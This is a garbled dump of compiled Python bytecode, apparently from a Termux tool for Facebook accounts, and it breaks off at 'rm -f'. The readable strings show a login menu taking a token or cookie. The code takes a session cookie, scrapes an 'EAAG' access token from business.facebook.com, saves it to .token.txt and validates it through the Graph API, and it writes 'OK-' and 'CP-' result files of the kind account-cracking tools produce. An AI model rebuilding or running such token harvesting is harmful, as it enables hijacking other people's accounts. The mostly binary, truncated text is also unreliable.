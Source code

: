 Safari/537.36z\x08/sdcard/z\x03\x1b[mz\x05\x1b[93mz\x07\x1b[1;92mz\x05\x1b[32mz\x05\x1b[95mz\x05\x1b[33mz\x07\x1b[1;96mz\x07\x1b[0;34mZ\x07JanuaryZ\x08FebruaryZ\x05MarchZ\x05AprilZ\x03MayZ\x04JuneZ\x04JulyZ\x07AgustusZ\tSeptemberZ\x07OctoberZ\x08NovemberZ\x08December)\x0c\xda\x011\xda\x012\xda\x013\xda\x014\xda\x015\xda\x016\xda\x017\xda\x018\xda\x019\xda\x0210\xda\x0211\xda\x0212)\x0c\xda\x0201\xda\x0202\xda\x0203\xda\x0204\xda\x0205Z\x0206Z\x0207Z\x0208Z\x0209r\'\x00\x00\x00r(\x00\x00\x00r)\x00\x00\x00z\x03OK-\xfa\x01-z\x04.txtz\x03CP-c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00C\x00\x00\x00s\x0e\x00\x00\x00t\x00\xa0\x01d\x01\xa1\x01\x01\x00d\x00S\x00)\x02N\xda\x05clear)\x02\xda\x02os\xda\x06system\xa9\x00r3\x00\x00\x00r3\x00\x00\x00\xfa\x01 r0\x00\x00\x00Q\x00\x00\x00s\x02\x00\x00\x00\x0e\x01r0\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00C\x00\x00\x00s\n\x00\x00\x00t\x00\x83\x00\x01\x00d\x00S\x00)\x01N)\x01\xda\x05loginr3\x00\x00\x00r3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00\xda\x04backT\x00\x00\x00s\x02\x00\x00\x00\n\x01r6\x00\x00\x00z\x06Talha-z\x08-M4786==z\x06Busra-\xe9\n\x00\x00\x00\xfa0/data/data/com.termux/files/usr/bin/.mrahsan-cov\xda\x01r\xda\x01wc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00s\xa6\x00\x00\x00zEt\x00d\x01d\x02\x83\x02\xa0\x01\xa1\x00}\x00t\x02\xa0\x03|\x00\xa1\x01\x01\x00z\x10t\x04\xa0\x05d\x03t\x02d\x04\x19\x00\x17\x00\xa1\x01}\x01t\x06\x83\x00\x01\x00W\x00W\x00d\x00S\x00\x04\x00t\x07y+\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00W\x00d\x00S\x00\x04\x00t\x04j\tj\nyE\x01\x00\x01\x00\x01\x00t\x0b\x83\x00\x01\x00t\x0ct\r\x83\x01\x01\x00t\x0cd\x05\x83\x01\x01\x00t\x0e\x83\x00\x01\x00Y\x00W\x00d\x00S\x00w\x00\x04\x00t\x0fyR\x01\x00\x01\x00\x01\x00t\x08\x83\x00\x01\x00Y\x00d\x00S\x00w\x00)\x06N\xfa\n.token.txtr9\x00\x00\x00\xfa+https://graph.facebook.com/me?access_token=r\x01\x00\x00\x00\xf5\x18\x00\x00\x00 [\xc3\x97] Connection Timeout)\x10\xda\x04open\xda\x04read\xda\x07tokenku\xda\x06append\xda\x08requests\xda\x03get\xda\x0bpublic_menu\xda\x08KeyError\xda\x06Public\xda\nexceptions\xda\x0fConnectionErrorr0\x00\x00\x00r\t\x00\x00\x00\xda\x04logo\xda\x04exit\xda\x07IOError)\x02\xda\x05tokenZ\x02syr3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00r5\x00\x00\x00a\x00\x00\x00s"\x00\x00\x00\x02\x01\x0e\x01\n\x01\x02\x01\x12\x01\x0e\x01\x0c\x01\x0e\x01\x10\x01\x06\x01\x08\x01\x08\x01\x0e\x01\x02\xfc\x0c\x05\x0c\x01\x02\xffr5\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00C\x00\x00\x00s2\x00\x00\x00|\x00d\x01\x17\x00D\x00]\x12}\x01t\x00j\x01\xa0\x02|\x01\xa1\x01\x01\x00t\x00j\x01\xa0\x03\xa1\x00\x01\x00t\x04\xa0\x05d\x02\xa1\x01\x01\x00q\x04d\x00S\x00)\x03N\xda\x01\ng{\x14\xaeG\xe1z\x84?)\x06\xda\x03sys\xda\x06stdout\xda\x05write\xda\x05flush\xda\x04time\xda\x05sleep)\x02\xda\x01z\xda\x01er3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00\xda\x05jalanq\x00\x00\x00s\x06\x00\x00\x00\x0c\x01"\x01\x04\xffrV\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\x0c\x00\x00\x00C\x00\x00\x00s\x86\x01\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01\x83\x01\x01\x00t\x03d\x02\x83\x01}\x00|\x00d\x03v\x00rat\x03d\x04\x83\x01}\x01t\x04d\x05d\x06\x83\x02\xa0\x05|\x01\xa1\x01}\x02z\x19t\x06\xa0\x07d\x07|\x01\x17\x00\xa1\x01}\x03t\x08\xa0\t|\x03j\n\xa1\x01d\x08\x19\x00}\x04t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00d\x00S\x00\x04\x00t\x0cyN\x01\x00\x01\x00\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0f\x83\x00\x01\x00Y\x00d\x00S\x00\x04\x00t\x06j\x10j\x11y`\x01\x00\x01\x00\x01\x00t\x01d\x0c\x83\x01\x01\x00t\x12\x83\x00\x01\x00Y\x00d\x00S\x00w\x00|\x00d\rv\x00r\xc1z4t\x03d\x0e\x83\x01}\x05t\x06j\x07d\x0fd\x10d\x11d\x12d\x13d\x14d\x15d\x16d\x17d\x18d\x19\x9c\td\x1a|\x05i\x01d\x1b\x8d\x03}\x06t\x13\xa0\x14d\x1c|\x06j\n\xa1\x02}\x07t\x04d\x05d\x06\x83\x02\xa0\x05|\x07\xa0\x15d\x1d\xa1\x01\xa1\x01}\x08t\x01d\t\x83\x01\x01\x00t\x0b\x83\x00\x01\x00W\x00d\x00S\x00\x04\x00t\x16y\xc0\x01\x00}\t\x01\x00z\x1bt\x17\xa0\x18d\x1e\xa1\x01\x01\x00t\x01d\n\x83\x01\x01\x00t\r\xa0\x0ed\x0b\xa1\x01\x01\x00t\x0b\x83\x00\x01\x00t\x12\x83\x00\x01\x00W\x00Y\x00d\x00}\t~\td\x00S\x00d\x00}\t~\tw\x01w\x00d\x00S\x00)\x1fNz. [01] Login With Token\n [02] Login With Cookiez\x13\n [#] Select One : \xa9\x02r\x1e\x00\x00\x00r*\x00\x00\x00z\r [+] Token : r;\x00\x00\x00r:\x00\x00\x00r<\x00\x00\x00\xda\x02idz\x15 [\x1a] Login Successfulu\x13\x00\x00\x00 [\xc3\x97] Login Failed g\x00\x00\x00\x00\x00\x00\x04@r=\x00\x00\x00\xa9\x02r\x1f\x00\x00\x00r+\x00\x00\x00z\x0e [+] Cookie : z0https://business.facebook.com/business_locationsz\x8fMozilla/5.0 (Linux; Android 12.1.0; MI 8 Build/OPM1.171019.011) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.86 Mobile Safari/537.36z\x19https://www.facebook.com/z\x15business.facebook.comz\x1dhttps://business.facebook.comr\x1e\x00\x00\x00\xfa#id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7\xfa\tmax-age=0z\xactext/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8z\x18text/html; charset=utf-8)\t\xfa\nuser-agent\xda\x07refererZ\x04host\xda\x06origin\xfa\x19upgrade-insecure-requests\xfa\x0faccept-language\xfa\rcache-control\xda\x06accept\xfa\x0ccontent-type\xda\x06cookie)\x02\xda\x07headers\xda\x07cookiesz\t(EAAG\\w+)r\x03\x00\x00\x00z\x10rm -f